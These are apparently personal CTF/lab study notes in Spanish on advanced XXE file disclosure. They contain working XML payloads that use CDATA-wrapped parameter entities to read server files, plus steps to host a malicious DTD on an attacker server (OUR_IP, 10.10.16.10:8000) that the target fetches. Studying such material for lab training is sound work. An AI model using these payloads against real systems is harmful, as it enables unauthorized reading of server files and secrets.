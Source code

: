 
## Advanced File Disclosure
Cuando lo anterior no nos funciona  o cuando la web no usa php o cuando no nos enseña nada
### Advanced Exfiltration with CDATA


```xml
<!DOCTYPE email [
  <!ENTITY begin "<![CDATA[">
  <!ENTITY file SYSTEM "file:///var/www/html/submitDetails.php">
  <!ENTITY end "]]>">
  <!ENTITY joined "&begin;&file;&end;">
]>
```

la ultima parte del joined debería hacer que lo que queremos ver se enseñe pero xml no deja juntar entidades externas con internas , para bypassearlo usaremos `XML Parameter Entities` que es un tipo especial de entity que se referencia con % y que solo se puede usar en un DTD(explicacion de DTD en el apartado de basics)

PASOS:

1.  
```shell-session
bonack@htb[/htb]$ echo '<!ENTITY joined "%begin;%file;%end;">' > xxe.dtd
bonack@htb[/htb]$ python3 -m http.server 8000
```
2. 
```xml
<!DOCTYPE email [
  <!ENTITY % begin "<![CDATA["> 
  <!ENTITY % file SYSTEM "file:///var/www/html/submitDetails.php">
  <!ENTITY % end "]]>">
  <!ENTITY % xxe SYSTEM "http://OUR_IP:8000/xxe.dtd"> 
  %xxe;
]>
...
<email>&joined;</email> <!-- reference the &joined; entity to print the file content -->
```
------------------------------------------------------------------------
Lo de arriba no se porq putas en htb no funciona pero si funciona : 

1. El archivo xxe.dtd
```<!ENTITY % file SYSTEM "file:///flag.php">
<!ENTITY % start "<![CDATA[">
<!ENTITY % end "]]>">
<!ENTITY % all "<!ENTITY fileContents 
'%start;%file;%end;'>">
```
2. Payload ya en burp y despues de haber levantado nuestro server
```<!DOCTYPE email [
  <!ENTITY % dtd SYSTEM
  "http://10.10.16.10:8000/xxe.dtd">
  %dtd;
  %all;
]>
.
.
.
<email>
&fileContents;
</email>
```
